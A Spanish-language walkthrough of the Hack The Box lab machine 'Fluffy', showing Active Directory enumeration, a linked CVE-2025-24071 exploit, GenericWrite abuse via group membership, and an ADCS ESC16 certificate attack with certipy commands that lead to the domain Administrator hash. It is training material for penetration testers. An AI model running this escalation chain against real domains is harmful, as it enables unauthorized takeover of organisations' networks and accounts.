


La máquina **Fluffy** de Hack The Box simula un entorno corporativo realista, en el que el atacante comienza con un acceso inicial proporcionado por el cliente, representado por un par de credenciales válidas. Este escenario reproduce una situación común en pentests internos, donde se parte con acceso limitado a la red o a una cuenta de bajo privilegio.

Este tipo de escenario es habitual en pentests internos, donde el atacante parte con credenciales válidas y debe evaluar el impacto real que puede alcanzar dentro del dominio.

El objetivo no es únicamente comprometer un sistema, sino determinar hasta dónde puede escalar el acceso dentro de Active Directory.

Esta máquina permite practicar múltiples técnicas comunes en entornos Active Directory con acceso inicial desde un usuario de bajo privilegio. A lo largo del compromiso se utilizan:

- **Enumeración interna** con usuario autenticado.
    
- **Acceso a recursos compartidos** según pertenencia a grupos.
    
- **CVE-2025-24071**
    
- **Abuso de privilegios ACL (`GenericWrite`)**.
    
- **ESC16**

---

# Enumeración inicial

## Escaneo de puertos

```nmap
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-26 13:45:46Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Observations

- Controlador de dominio accesible
- Servicios Kerberos, LDAP y SMB expuestos
- Entorno completamente integrado en Active Directory

Esto confirma que el foco principal debe ser la enumeración interna autenticada.

 Nos acordamos de meter `10.10.11.69    fluffy.htb dc01.fluffy.htb` en el `/etc/hosts`.
## Usuarios



Dado que se dispone de credenciales válidas, se prioriza la enumeración autenticada frente a técnicas anónimas.

Esto permite:

- Enumerar usuarios y grupos con mayor precisión
- Identificar relaciones dentro del dominio
- Detectar posibles paths de escalada

Y nos creamos con `enum4linux` un listado de usuarios.

```bash
enum4linux -U -u j.fleischman -p 'J0elTHEM4n1990!' fluffy.htb | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" > usuarios.txt
```


## Políticas de Contraseñas



## Shares



El acceso a shares corporativos puede revelar información sensible como:

- Documentación interna
- Credenciales
- Información sobre infraestructura

Este tipo de hallazgos suele ser clave para avanzar en entornos reales.

Entramos en `IT` para ver que hay dentro:





Descargamos el `Upgrade_Notice.pdf` y vemos:



El acceso a recursos internos permite identificar posibles vectores de ejecución de código.

En este caso, se detecta una vulnerabilidad explotable (CVE-2025-24071) que permite ampliar el acceso dentro del entorno.

---
# Acceso

## Explotación de CVE

Utilizamos el  [CVE-2025-24071](https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom/tree/main)





Una vez obtenido acceso adicional, se realiza análisis del dominio mediante BloodHound.

El objetivo es identificar:

- Relaciones entre usuarios y grupos
- Permisos delegados
- Posibles caminos de escalada

Ejecutamos `bloodhound-python` para ver posibles accesos:

```bash
bloodhound-python -u p.agila -p <p.agila psswd> -ns 10.10.11.69 -d fluffy.htb -c all --zip
```



BloodHound revela que el usuario `p.agila` puede obtener privilegios adicionales mediante pertenencia al grupo `SERVICE ACCOUNTS`.

Este camino se prioriza porque:

- Permite acceso a privilegios delegados (GenericWrite)
- Facilita el control sobre otros objetos del dominio
- Representa un vector de escalada típico en AD

Podemos ver tambien que si añadimos a `p.agila` al grupo `SERVICE ACCOUNTS` ganaremos privilegios de `GenericWrite`.



---
# Movimiento lateral y Escalada

Añadimos al usuario `p.agila` al grupo `SERVICE ACCOUNTS`:

```bash
bloodyAD --host dc01.fluffy.htb -u 'p.agila' -p <p.agila psswd> -d fluffy.htb add groupMember "SERVICE ACCOUNTS" p.agila
```
o
```bash
net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U "fluffy.htb"/"p.agila"%<p.agila psswd> -S "dc01.fluffy.htb"
```

Podemos ver que una vez conseguidos privilegios `GenericWrite`, somos capaces de adquirir los hashes NT de los diferentes usuarios del grupo:



Buscamos vulnerabilidades haciendo uso de los usuarios:

```bash
# solo a partir de versión 5.0.2 de certipy
certipy find -vulnerable -u ca_svc@fluffy.htb -hashes <NT hash> -stdout 
```




Active Directory Certificate Services (ADCS) introduce vectores de ataque críticos cuando está mal configurado.

El abuso de plantillas de certificados permite:

- Suplantar identidades privilegiadas
- Obtener acceso persistente
- Escalar privilegios sin necesidad de credenciales en claro

En este caso, se explota ESC16 para comprometer el dominio.

Modificamos primero el UPN de `ca_svc`:

```bash
certipy account -u 'p.agila@fluffy.htb' -p <p.agila psswd> -target 'dc01.fluffy.htb'  -upn 'administrator' -user 'ca_svc' update
```

Pedimos una plantilla de certificados:

```bash
certipy req -dc-ip '10.10.11.69' -u 'ca_svc@fluffy.htb' -hashes <NT hash> -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
```

Restablecemos el UPN de `ca_svc`:

```bash
certipy account -u 'p.agila@fluffy.htb' -p <p.agila psswd> -target 'dc01.fluffy.htb' -upn 'ca_svc' -user 'ca_svc' update
```

Usamos el certificado para autenticarnos y conseguir el hash NTLM de `Administrator`:

```bash
certipy auth -pfx administrator.pfx -domain fluffy.htb
```

Ahora que poseemos el hash NTLM del usuario `Administrator`, podemos autenticarnos y coger las flags:



HAPPY HACKING



## Conclusión

Este escenario demuestra cómo:

- Un acceso inicial con credenciales válidas
- Puede escalar hasta compromiso total del dominio

A través de:

- Enumeración interna efectiva
- Abuso de permisos en Active Directory (ACLs)
- Explotación de vulnerabilidades
- Uso indebido de ADCS

El compromiso no depende de una única vulnerabilidad, sino de la capacidad de identificar y encadenar múltiples vectores de ataque.

Este tipo de escenarios es representativo de entornos corporativos reales.